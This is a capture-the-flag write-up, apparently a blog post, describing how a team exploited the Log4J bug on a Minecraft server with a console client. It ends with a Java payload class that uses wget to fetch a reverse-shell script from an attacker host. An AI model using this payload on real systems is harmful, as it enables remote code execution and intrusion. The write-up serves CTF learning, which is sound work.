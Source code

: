 So this was nerve wrecking and helped us jump from 9/10th place to 6th at the last minute of the comptetition.

**Solution**: Log4J bug obvious, but not the way to connect to it at
first.

Seemed like no way to connect to the server, couldn't get a client installed properly, so a decision to find a similar ctf challenge was made.

Found this: https://ctftime.org/writeup/20489, which in turn linked to this nice CLI tool https://mccteam.github.io/.

Having this installed, it was possible to connect to the server, not
exactly as simple as this at the start, couldn't get it to connect.

This was executed:

```bash
# After downloading the binary
https://github.com/MCCTeam/Minecraft-Console-Client/releases/tag/20221004-85

apt install dotnet-runtime-6

# Run client
./MinecraftClient "" "" env263.target02:25565
```

But... "Connection has been lost."

![MCC connection lost](images/mcc-connection-lost.png){: .image-process-crisp}

So what was the problem? It needed a username. There was a lot of 
struggle, but it was this simple.

None tried the exploit before and I was just as oblivious when attempting it, spent some good time mistyping jndi as jindi.

![Mistyped jndi](images/jndi-typo.png){: .image-process-crisp}

Once the `jndi` was properly typed, the response as handing and that's where we finally found that the exploit was possible.

The exploit that will be used is from David Bombal video, you can
find his repository here: https://github.com/davidbombal/log4jminecraft

Athough the default payload was not working because of special character issues, it was ran 2 times. Once to get the reverse shell on the machine and second to run the reverse shell.

First payload:

```java
public class Log4jRCE {

    static {
        
        try {
            java.lang.Runtime.getRuntime().exec("wget http://10.85.26.3:9001/rev.sh").waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public Log4jRCE(){
        System.out.println("I am Log4jRCE from remote222!!!");
    }
}
```
